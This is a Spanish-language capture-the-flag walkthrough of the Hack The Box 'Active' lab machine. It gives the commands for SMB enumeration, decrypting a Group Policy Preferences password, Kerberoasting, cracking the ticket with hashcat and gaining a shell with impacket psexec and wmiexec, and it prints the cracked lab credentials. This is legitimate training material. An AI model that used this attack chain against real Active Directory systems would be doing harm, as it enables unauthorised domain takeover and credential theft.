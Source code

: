![Active (1)](https://github.com/user-attachments/assets/a0ee55d3-ffbf-4642-a114-e1aca2f30836)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``
![1](Images/1.png)

![Pasted image 20250313105053](https://github.com/user-attachments/assets/43fe3451-31a8-4d10-bf9b-ab638880287d)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![Pasted image 20250313105216](https://github.com/user-attachments/assets/691c6de4-1102-426b-a453-331ef7769073)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![Pasted image 20250313105324](https://github.com/user-attachments/assets/d9c8b691-10ab-4097-9e7c-e6c6764f03d7)

Confirmamos que el dominio es active.htb, que la máquina se llama dc y que tiene un WinServer 2008.

Añadimos esta información al /etc/hosts.

![active etchosts](https://github.com/user-attachments/assets/13591f9d-94c3-4bbe-ad59-c2e98c30f03e)


Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![Pasted image 20250313105631](https://github.com/user-attachments/assets/b0ac3808-30c1-4906-bb42-ea78c529c128)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![Pasted image 20250313105732](https://github.com/user-attachments/assets/a6766483-809e-4362-9980-871fa73e4d44)


active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![Pasted image 20250313110008](https://github.com/user-attachments/assets/445fc4b7-ad78-4b6f-9e18-6d7145aaa9ff)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![Pasted image 20250313110146](https://github.com/user-attachments/assets/36f7f9ba-e4f8-412d-bad0-07a559d358e5)


Y si echamos un vistazo a Groups.xml : 

![Pasted image 20250313112056](https://github.com/user-attachments/assets/b5212019-0655-4aea-8ac4-f692c9609db0)


Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![Pasted image 20250313110557](https://github.com/user-attachments/assets/5912c20f-0c5f-4546-b198-6bdd4d4749f8)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![Pasted image 20250313112339](https://github.com/user-attachments/assets/a5c35665-312e-4765-a205-5eb2844b4152)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![Pasted image 20250313112616](https://github.com/user-attachments/assets/549749d1-e6be-416f-8217-3ebeb729393b)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![Pasted image 20250313113410](https://github.com/user-attachments/assets/b6d57e01-b7de-4d52-9259-0a1bd3610480)


Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
-> Password: GPPstillStandingStrong2k18

![Pasted image 20250313113615](https://github.com/user-attachments/assets/f4706d60-a0de-41cf-9c9a-91cafd9cb652)

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![Pasted image 20250313113715](https://github.com/user-attachments/assets/8227a23b-c816-423c-ad2a-4005e2827743)


Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![Pasted image 20250313113850](https://github.com/user-attachments/assets/b2a5f526-064c-4dc2-8aee-580aefedcf44)


Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![Pasted image 20250313114050](https://github.com/user-attachments/assets/59f199dd-b2a9-40a7-bfc7-c3b4a81a97d9)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![Pasted image 20250313114156](https://github.com/user-attachments/assets/1be287e2-09ac-4782-a19a-8cf09a160c3b)


Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114352](https://github.com/user-attachments/assets/2cca26a5-0223-4896-8e68-da09618d474c)


``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114422](https://github.com/user-attachments/assets/30e28b9a-5b7b-40e2-a6b5-2e79a666ea4d)



Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![Pasted image 20250313114638](https://github.com/user-attachments/assets/76f66d12-22bb-4793-83fb-eb4b9e74e767)


Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250313114758](https://github.com/user-attachments/assets/a314fe8e-b238-46cb-b847-ed247098f76e)
